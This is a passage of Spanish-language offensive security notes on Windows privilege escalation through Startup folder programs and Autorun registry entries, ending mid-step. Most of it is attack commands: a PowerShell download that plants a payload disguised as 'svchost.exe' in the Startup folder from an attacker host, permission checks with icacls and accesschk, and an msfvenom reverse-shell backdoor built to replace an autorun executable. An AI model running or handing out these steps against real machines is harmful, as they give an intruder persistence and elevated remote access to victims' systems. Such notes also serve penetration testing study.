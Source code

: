 lo pasamos:

KALI:

```bash
python -m SimpleHTTPServer
```

WINDOWS:

```bash
powershell.exe -c "(New-Object Net.WebClient).downloadFile('http://<IP_KALI>:8000/svchost.exe','C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\svchost.exe')"
```

ahora debemos ponernos a la escuhca, cerrar la sesion y volver a iniciar.

puedes hacerlo a traves de RDP.

[https://steflan-security.com/windows-privilege-escalation-startup-applications/](https://steflan-security.com/windows-privilege-escalation-startup-applications/)

## AUTORUN

Muy parecido a la forma de escalar privilegios mediante los startup application, existe un registro en windows donde se almacenan aquellas aplicaciones que se almacenan automaticamente al iniciar sesion, podemos consultar ese registro:

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

imaginemos que si hay una aplicacion almacenada en este registro, tiene la siguiente ruta: **"C:\\Program Files\\Autorun\\program.exe"**. Debemos verificar si tenemos permisos de escritura en esa ruta:

```bash
icacls.exe "C:\Program Files\Autorun\program.exe"
```

o

```bash
accesschk.exe "C:\Program Files\Autorun\program.exe"
```

en caso de tener permisos podemos crearnos un backdoor con msfvenom y reemplazar el ejecutable por nuestro backdoor:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP_KALI> LPORT=<PUERTO_KALI> -f exe > program.exe
```

lo pasamos:

KALI:

```bash
python -m SimpleHTTPServer
```

WINDOWS:
